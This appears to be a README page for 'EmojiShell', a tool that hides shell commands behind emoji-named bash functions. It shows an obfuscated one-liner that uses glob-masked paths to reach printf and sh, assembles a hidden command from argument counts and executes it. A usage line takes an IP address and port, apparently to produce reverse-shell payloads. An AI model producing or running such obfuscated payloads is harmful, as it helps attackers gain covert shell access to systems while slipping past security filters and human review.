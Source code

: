 <center><h1>EmojiShell</h1></center><br>
<center><h5>🤑(){ /??r/??n/?r?nt? ${@};};💰(){ 🤑 ${#};};💻(){ /??n/?h -c "${@}";};B=$(🤑 "\\`💰 💢``💰 ㊙ ㊙ ㊙ ㊙``💰 🖤 🖤 🖤 🖤 🖤`\\`💰 🧫``💰 😵 😵 😵 😵``💰 🦠 🦠 🦠`\\`💰 ♻``💰 😱 😱 😱 😱 😱``💰`\\`💰 ㊙``💰 📺 📺 📺 📺 📺``💰 😱 😱 😱 😱 😱 😱 😱`\\`💰 🧫 🧫 🧫 🧫``💰`\\`💰 🔓 🔓 🔓 🔓``💰 🕷 🕷`\\`💰 🦠``💰 🔥``💰`\\`💰 ☄``💰 ☮ ☮ ☮ ☮``💰 🖪`\\`💰 ㊙``💰 👽 👽 👽 👽``💰 🎈 🎈 🎈`\\`💰 ☄``💰 👽 👽 👽 👽 👽``💰 🍄 🍄 🍄`\\`💰 🔑 🔑 🔑 🔑``💰`\\`💰 👻``💰 💫 💫``💰 🎵 🎵 🎵 🎵`\\`💰 💢``💰 ㊙ ㊙ ㊙ ㊙ ㊙``💰`\\`💰 👻``💰 🥳 🥳 🥳 🥳``💰 💣 💣 💣 💣 💣`\\`💰 📺 📺 📺 📺``💰`\\`💰 🔒``💰 🎶 🎶``💰`\\`💰 🐸``💰 ☣ ☣ ☣ ☣ ☣``💰 💻 💻 💻 💻`\\`💰 🦠``💰 📡 📡 📡 📡``💰 ⚛`\\`💰 🧫``💰 🖪 🖪 🖪 🖪 🖪``💰 🎊 🎊 🎊 🎊 🎊 🎊`\\`💰 🤑``💰 👾 👾 👾 👾``💰 🐸 🐸 🐸 🐸 🐸`\\`💰 ♻``💰 ♻ ♻ ♻ ♻ ♻ ♻``💰 🎵 🎵 🎵 🎵`\\`💰 👾 👾 👾 👾``💰 🎵`\\`💰 💻 💻 💻 💻``💰 ☄ ☄`\\`💰 💔 💔 💔 💔 💔 💔 💔``💰 🧪 🧪 🧪`");💻 "${B}";</h5><br></center>
<pre><code>
[m4x@lab:~]$ python emojishell.py
Usage: emojishell.py {IP address} {Port} {Output Filename}
</code></pre>

